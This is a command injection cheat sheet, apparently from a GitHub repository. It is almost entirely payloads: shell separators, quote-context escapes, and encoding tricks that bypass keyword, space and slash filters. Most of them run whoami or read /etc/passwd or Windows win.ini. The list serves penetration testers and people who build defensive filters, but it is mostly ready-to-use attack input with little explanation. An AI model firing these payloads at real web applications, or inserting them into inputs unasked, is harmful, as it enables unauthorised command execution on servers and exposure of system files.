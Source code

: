 # Command injection

Abuse of functionality in web applications, where it is possible to inject arbitrary commands and takeover entire server.
Vulnerability often happens while using 'dangerous' functions that have ability to execute commands like PHP's system, shell_exec, passthru, exec. 

### Injection sequences
`;whoami;`  
`&whoami`  
`&&whoami`  
`|whoami`   
`||whoami`  
`%0awhoami`  

Unix-only  
`` ;`whoami`; ``  
`;$(whoami);`  

### Contexts
Depending on vulnerable functionality, escaping the code in order to inject commnands might be necessary.  
`';whoami`  
`');whoami`   
`");whoami`  
...  

### Keyword bypass
Different way of executing 'whoami' command. These could bypass sanitisations.  
`/usr/bin/wh?ami`  
`/usr/bin/who*mi`  
`/usr/bin/whoam[i]`  
`'w'h'o'a'm'i`  
`"w"h"o"a"m"i`  
`\w\h\o\a\m\i`  
`who''ami`  
`who""ami`   
`` w`u`h`u`o`u`a`u`m`u`i ``  
`w$(u)h$(u)o$(u)a$(u)m$(u)i`  

### Space bypass  
`CAT${IFS}/etc/passwd`  
`cat${IFS%??}/etc/passwd`    
`cat\t/etc/passwd`  
`{cat,/etc/passwd}`   
`X=$'cat\x20/etc/passwd'&&$X`  
`IFS=];a=cat]/etc/passwd;$a`  

Windows only:  
`ping%PROGRAMFILES:~10,-5%127.0.0.1`

### Hex encoding bypasses
All of these execute 'cat /etc/passwd'.  
`` cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"` ``  
`` `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'` ``  
`a=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $a`  
`` cat `xxd -r -p <<< 2f6574632f706173737764` ``  
`` cat `xxd -r -ps <(echo 2f6574632f706173737764)` ``

### Slash and Backslash bypass
`cat ${PWD:0:1}etc${PWD:0:1}passwd`  
`cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd`   

Windows-only backslash bypass  
`type C:%PROGRAMFILES:~2,-13%Windows%PROGRAMFILES:~2,-13%win.ini`

### Misc execution tricks
Through '$0' sequence.  
`echo whoami|$0`  

Through historic commands. '!!' and '!-1' equals to last command executed, '!-2', second to last, etc..  
`ami`    
`who`  
`!-1!-2`
